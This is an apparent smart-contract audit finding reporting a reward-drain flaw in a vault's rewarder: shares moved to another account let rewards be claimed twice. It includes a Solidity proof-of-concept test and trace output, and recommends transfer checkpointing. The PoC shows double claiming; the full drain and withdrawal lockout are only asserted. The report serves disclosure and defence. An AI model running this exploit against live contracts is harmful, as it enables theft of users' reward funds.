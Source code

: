 Bald Grape Dragonfly

high

# Funds/Rewards extraction from Rewarder due to missing tracking mechanism.
## Summary
Rewarder’s funds can be subtracted due to the absence of a validation when transferring shares leading to users being unable to make withdrawals from the LMPVault. 

## Vulnerability Detail
The scenario resembles a governance type vulnerability where a user with voting powers is able to transfer this power to other users without restriction and utilize it X number of times to obtain a specific profit or advantage.

In this specific case a user A is able to transfer its shares to others, making them able to claim rewards until a complete drain is performed. Then, if any other user withdraws from the LMPVault, since no assets are available, he falls into a DoS scenario, since rewarder is having now zero assets.  

### PoC
The POC below describes the scenario. Basically:

An attacker deposits X shares to the LMP Vault, (the vault has Y number of total shares)
When the attacker is able to claim rewards (after time elapsed) he gets Z tokes. 
At this moment he is able to send his shares to other controlled accounts, and these accounts are able to claim rewards again until all rewards are drained. 
If any other user (aside from controlled accounts) wants to withdraw it will fail (DoS scenario). 


```Solidity
  function test_rewards_substraction() public {
        
            address user1 = makeAddr("User1");
            address user2 = makeAddr("User2");
            address attacker = makeAddr("attacker");
            
            _asset.mint(address(this), 1000);
            _asset.mint(user1, 1000);
            _asset.mint(user2, 1000);
            _asset.approve(address(_lmpVault), 1000);

            assertEq(_lmpVault.balanceOf(address(this)), 0);
            assertEq(_lmpVault.rewarder().balanceOf(address(this)), 0);

            _accessController.grantRole(Roles.DV_REWARD_MANAGER_ROLE, address(this));
            _lmpVault.rewarder().addToWhitelist(address(this));
        
            _toke.mint(address(this), 1000e18);
            _toke.approve(address(_lmpVault.rewarder()), 1000e18);
            _lmpVault.rewarder().queueNewRewards(1000e18);

            uint256 shares = _lmpVault.deposit(1000, address(this));
           
            vm.startPrank(user1);
            _asset.approve(address(_lmpVault), 1000);
            _lmpVault.deposit(1000, user1);
            vm.stopPrank();

            vm.startPrank(user2);
            _asset.approve(address(_lmpVault), 1000);
            _lmpVault.deposit(1000, user2);
            vm.stopPrank();

            assert(_toke.balanceOf(attacker) == 0);
            assert(_toke.balanceOf(address(this)) == 0);
            vm.roll(block.number + 10_000);
            _lmpVault.rewarder().getReward();
            _lmpVault.transfer(attacker, 1000);
           
            vm.startPrank(attacker);
            _lmpVault.rewarder().getReward();
            vm.stopPrank();
            assert(_toke.balanceOf(attacker) > 0);
            assert(_toke.balanceOf(address(this)) > 0);

    }   

```

As we recalled, there is no mechanism preventing transferring the shares from account A to account B, and account B claiming rewards with the shares of Account A which should be possible. Therefore it was possible for the attacker to claim rewards according to the results of the PoC above:

```Solidity
 │   └─ ← ()
    ├─ [563] toke::balanceOf(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e]) [staticcall]
    │   └─ ← 333333333333333333333 [3.333e20]
    ├─ [563] toke::balanceOf(testContract: [0xA8452Ec99ce0C64f20701dB7dD3abDb607c00496]) [staticcall]
    │   └─ ← 333333333333333333333 [3.333e20]
    └─ ← ()
```

## Impact
There are two main critical issues to address here. The first one is the user’s (or attacker) capability to deplete all funds from the rewarder as we saw in the PoC. The second is the DoS state that leaves as any other user cannot withdraw from the LMP vault. 

## Code Snippet
https://github.com/sherlock-audit/2023-06-tokemak/blob/5d8e902ce33981a6506b1b5fb979a084602c6c9a/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L834C4-L852 

## Tool used
Manual Review

## Recommendation
There should be a tracking mechanism in place for the transfers in the rewarder, so it prevents “its reutilization”, specially there should be a checkpoint update when dealing with balances. 
Additional tests are required in RewardVault.t to thoroughly verify the emission of rewards. 
